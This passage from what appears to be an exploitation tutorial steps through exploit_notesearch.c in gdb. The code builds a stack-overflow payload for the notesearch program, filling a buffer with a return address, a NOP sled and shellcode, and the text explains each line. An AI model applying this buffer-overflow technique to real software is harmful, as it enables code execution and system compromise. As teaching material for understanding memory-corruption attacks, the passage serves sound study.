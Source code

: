 17      buffer = command + strlen(command); // Set buffer at the end.
18
19      if(argc > 1) // Set offset.
20          offset = atoi(argv[1]);
(gdb)
21
22      ret = (unsigned int) &i - offset; // Set return address.
23
<strong><em>24      for (i = 0; i < 160; i+=4)</em></strong> // Fill buffer with return address.
<strong><em>25          *((unsigned int*)(buffer+i)) = ret;</em></strong>
<strong><em>26      memset(buffer, 0x90, 60);</em></strong> // Build NOP sled.
<strong><em>27      memcpy(buffer+60, shellcode, sizeof(shellcode)-1);</em></strong>
28
29      strcat(command, "\'");
30
(gdb) break 26
Breakpoint 1 at 0x80485fa: file exploit_notesearch.c, line 26.
(gdb) break 27
Breakpoint 2 at 0x8048615: file exploit_notesearch.c, line 27.
(gdb) break 28
Breakpoint 3 at 0x8048633: file exploit_notesearch.c, line 28.
(gdb)
</pre>

The notesearch exploit generates a buffer in lines _24_ through _27_ (shown above in bold). The first part is a for loop that fills the buffer with a 4-byte address stored in the __ret__ variable. The loop increments __i__ by _4_ each time. This value is added to the buffer address, and the whole thing is typecast as a unsigned integer pointer. This has a size of 4, so when the whole thing is dereferenced, the entire 4-byte value found in __ret__ is written.

<pre style="color: white;">
(gdb) run
Starting program: /home/reader/booksrc/a.out

Breakpoint 1, main (argc=1, argv=0xbffff894) at exploit_notesearch.c:26
26 memset(buffer, 0x90, 60); // build NOP sled
(gdb) x/40x buffer
0x804a016:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a026:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a036:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a046:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a056:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a066:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a076:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a086:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a096:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a0a6:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
(gdb) x/s command
0x804a008: "./notesearch
'¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶û
ÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿"
(gdb)
</pre>
